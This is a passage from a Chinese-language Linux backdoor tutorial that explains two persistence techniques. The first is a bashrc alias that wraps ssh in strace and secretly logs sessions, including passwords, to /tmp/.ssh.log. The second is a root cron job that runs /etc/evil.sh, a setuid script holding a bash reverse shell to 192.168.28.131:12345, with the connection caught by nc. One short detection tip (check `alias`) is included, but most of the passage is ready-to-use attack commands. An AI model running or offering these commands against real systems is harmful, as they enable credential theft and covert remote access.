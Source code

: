 

**6、strace后门**

通过命令替换动态跟踪系统调用和数据，可以用来记录用户ssh、su、sudo的操作。

```
#vim /etc/bashrc
alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'
# source /root/.bashrc
```

![](.\image\privilege-5-5-1.png)

排查技巧：使用`alias`即可发现异常。

![](.\image\privilege-5-5-2.png)

**7、crontab反弹shell**

crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹。

a、创建shell脚本，例如在/etc/evil.sh

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.28.131/12345  0>&1
```

`chmod +sx /etc/evil.sh`

b、crontab -e 设置定时任务

```
#每一分钟执行一次
*/1 * * * * root /etc/evil.sh
```

重启crond服务，`service crond restart`，然后就可以用nc接收shell。
